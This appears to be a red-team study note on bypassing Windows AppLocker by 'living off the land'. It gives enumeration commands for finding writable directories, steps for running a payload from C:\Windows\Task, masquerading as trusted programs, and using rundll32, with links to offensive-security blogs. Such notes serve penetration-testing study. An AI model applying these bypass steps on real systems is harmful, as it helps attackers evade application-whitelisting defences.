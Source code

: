 # Living off the Land

## 01 - Enumerate

### 1.1 - Applocker EXE Bypass

#### 1.1.1 - Command Prompt

```
C:\> icacls.exe C:\Windows\Task
```

#### 1.1.2 - PowerShell

```
PS C:\> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrvV2\Exe
```

#### 1.1.3 - GPEdit

Local Computer Policy > User Configuration > Administrative Templates > System

### 1.2 - Applocker DLL Bypass

```
C:\> accesschk.exe "<username>" C:\Windows -wus
```

## 02 - Exploit

### 2.1 - World Writable Directories

```
C:\> C:\Windows\Task\payload.exe
```

### 2.2 - Create Directory

```
C:\Users\Administrator\Desktop> md Datasheet

C:\Users\Administrator\Desktop> move payload.exe Datasheet
```

### 2.3 - Masquerade Programs

```
msedge.exe
explorer.exe
```

### 2.4 - Whitelisted Executable Programs

```
rundll32.exe
```

---
## References

### Backlinks

- [[HTA]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

- [[Scriptlet]]

- [[Windows Scripting Host]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/WMI]]

- [[ForFiles]]

- [[DLL Execution]]

### Red Team Notes

- [Red Team Notes: Application Whitelisting Bypass with WMIC and XSL](https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl)

### Pentestlab

- [Pentestlab Blog: AppLocker Bypass - CMSTP](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/)